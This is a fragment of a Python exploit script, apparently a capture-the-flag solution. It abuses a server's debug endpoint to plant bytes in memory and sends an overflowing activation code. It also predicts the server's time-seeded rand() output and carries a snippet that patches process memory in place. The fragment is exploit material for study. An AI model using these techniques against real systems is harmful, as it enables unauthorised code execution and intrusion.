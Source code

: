 ```python
for start, end in rw_segments:
    buf = ctypes.string_at(start, end-start)
    # Split in two, to avoid finding itself.
    p1 = b"https://www.youtube.com"
    p2 = b"/watch?v=dQw4w9WgXcQ."
    offset = buf.find(p1+p2)
    if offset != -1:
        ctypes.memmove(start+offset, patch, len(patch))
"""

# API /run/ - execute a task. Return task ID - i.e. rand() value
def run(is_async:bool, method:str, arg:str):
    params = {"is_async": is_async, "method": method, "argc": 1, "argv": [arg]}
    r = requests.post(URL+"/run/", json=params)
    return r.json()["id"]

# API /__debug__/ - put bytes in server's RAM. Return the address.
def debug(arg:bytes):
    params = {"obj": "base64:"+base64.b64encode(arg).decode('ascii')}
    r = requests.post(URL+"/__debug__/", json=params)
    return r.json()["__id__"]+0x20

# API /activate/ - Send activation byte string, with possible overflow.
def activate(code:bytes):
    params = {"activation_code": base64.b64encode(code).decode('ascii')}
    requests.post(URL+"/activate/", params=params).json()

# Re-implemented crc32() from C module
def crc32(data:bytes, poly:int):
    crc_table = [0] * 256
    crc = 0xFFFFFFFF
    for i in range(256):
        remainder = i
        for j in range(8, 0, -1):
            if (remainder & 1) != 0:
                remainder = (remainder >> 1) ^ poly
            else:
                remainder = remainder >> 1
        crc_table[i] = remainder
    for i in range(len(data)):
        byte = data[i]
        lookupIndex = (crc ^ byte) & 0xFF
        crc = (crc >> 8) ^ crc_table[lookupIndex]
    return crc ^ 0xFFFFFFFF

###########################################################################

# Heuristics to guess the RNG state
start_time = int(time.time())
rand2_remote = run(False, "isprime", 1)
libc = ctypes.CDLL("libc.so.6")
for offset in range(1000):
    libc.srand(start_time-offset)
    rand1_local = libc.rand()
    rand2_local = libc.rand()
    if rand2_local == rand2_remote:
        rand3_local = libc.rand()
        rand4_local = libc.rand()  # This becomes the polynomial
        break
if offset == 999:
    print("RNG heuristics FAILED!")
    sys.exit(1)

```